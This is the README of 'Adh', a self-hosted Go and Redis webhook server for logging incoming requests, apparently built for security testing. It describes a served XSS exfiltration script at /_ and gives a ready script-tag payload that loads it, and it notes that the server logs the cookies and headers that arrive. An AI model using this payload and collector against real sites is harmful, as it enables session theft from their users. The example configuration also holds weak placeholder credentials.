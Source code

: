 # Adh

This project is nothing innovative or groundbreaking.
I just wanted to create my own webhook to deploy on a VPS, avoiding dependencies on tools like webhook.site, localtunnel, ngrok, or other similar services. It is fully customizable, and you can use it for various purposes like logging, request handling, or data collection.

### Overview

The core of this project is a simple webhook server that listens for incoming HTTP requests, logs the relevant information, and stores request data in Redis. It is built with Go for the backend and uses Redis for storage. The project aims to be lightweight, flexible, and simple to set up, but with room for expansion (such as adding a dashboard).

![img](/images/adh-schema.png)

### Features

- **Data Logging**: Logs requests including headers, cookies, body content, and user agent.
- **Redis Integration**: Store incoming request data in Redis, making it easy to scale or manage.
- **Exploit Script**: Serve a simple exploit script for XSS attacks (stealed from xss.report).
- **High customizability**: Customize the server to fit your needs.

### Dashboard

Below are some screenshots of the dashboard:

| ![Dashboard1](/images/adh-dashboard1.png) | ![Dashboard2](/images/adh-dashboard2.png) |
|-------------------------------------------|-------------------------------------------|
| ![Dashboard3](/images/adh-dashboard3.png) | ![Dashboard4](/images/adh-dashboard4.png) |



### Installation

To get started with the Adh, follow the steps below:

#### Prerequisites

- A machine exposed to the Internet (this tool is not a tunnelling solution such as ngrok or Localtunnel).
- Docker and Docker Compose installed on your machine.

#### Clone the Repository

```bash
git clone https://github.com/akiidjk/adh.git
cd adh
```

#### Set Up Docker Containers

1. Modify your environment variables in the `.env` file to suit your configuration based on the provided example.

```
PORT=8000
ADDR=0.0.0.0
LOG_LEVEL=info
REDIS_ADDR=redis
REDIS_PORT=6379
REDIS_URL=redis://redis:6379
USER_ID=0
USER_NAME=akiidjk
USER_PASSWORD=akiidjk
SECRET_KEY=polpetta
```

2. Now you can build and start your containers with:

```bash
docker-compose up --build -d
```

#### Access the Webhook

Once the containers are running, you can access your webhook on:

```
http://localhost:8000
```

The server will now be accepting requests on the specified port (8000 by default).

### Configuration

The following environment variables are available for customization:

- **REDIS_ADDR**: Address of the Redis server. Defaults to `localhost` or `redis` if using Docker.
- **REDIS_PORT**: Port for the Redis server. Defaults to `6379`.
- **REDIS_PASS**: Redis password (if needed).
- **LOG_LEVEL**: Log level for the application. Options are `debug`, `info`, `warn`, `error`. Defaults to `info`.
- **REDIS_URL**: URL of the Redis server. Defaults to `redis://localhost:6379`.
- **USER_ID**: User ID for the application. Defaults to `admin`.
- **USER_NAME**: User name for the application. Defaults to `admin`.
- **USER_PASS**: User password for the application. Defaults to `Admin`.
- **SECRET_KEY**: Secret key for the application. Defaults to `secret`.

### Health Check

The Redis health check is handled by a background goroutine that pings Redis periodically to ensure it's available. The health status is reported through a channel, and you can customize the interval as needed.

### Log Storage

The application saves all logs to a folder on your host machine. The logs are stored in the `./adh-webhook/logs` directory on your host system, ensuring that the logs persist even when the container is restarted or destroyed. This is done via Docker bind mounts, which map the `./adh-webhook/logs` folder on your local machine to `/var/log/webhook` in the container.

### Example Request

You can send a test request to the webhook with tools like `curl`:

```bash
curl -X POST http://localhost:8000 -H "Content-Type: application/json" -d '{"key":"value"}'
```

### XSS Script

In the path `/_`, the server returns a JS script which sends a request to the server (to be modified in case it is not localhost:8000) with data in a particular way.

The script is *‘stolen’* from xss.report

A simple payload for get an xss is `<script src="http://localhost:8000/_"></script>`

### To-Do

- [x] **Dashboard**: The current project lacks a UI dashboard to visualize requests and data. This will be added in the future (In progess).
- [x] **Authentication**: Implement an authentication mechanism to restrict access to the webhook dashboard.
- [x] Fix http problem with Docker
- [x] Implement rate limiting to prevent abuse
- [x] Add logout button
- [ ] Add search bar for requests
- [x] Add clear button

### Contributing

Contributions are welcome! Feel free to fork the repository, create issues, and submit pull requests.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

### Conclusion

The Adh Webhook is a flexible and lightweight solution for managing incoming webhooks with custom logging and Redis storage. It's easily deployable with Docker and offers the flexibility to customize headers, storage, and more.
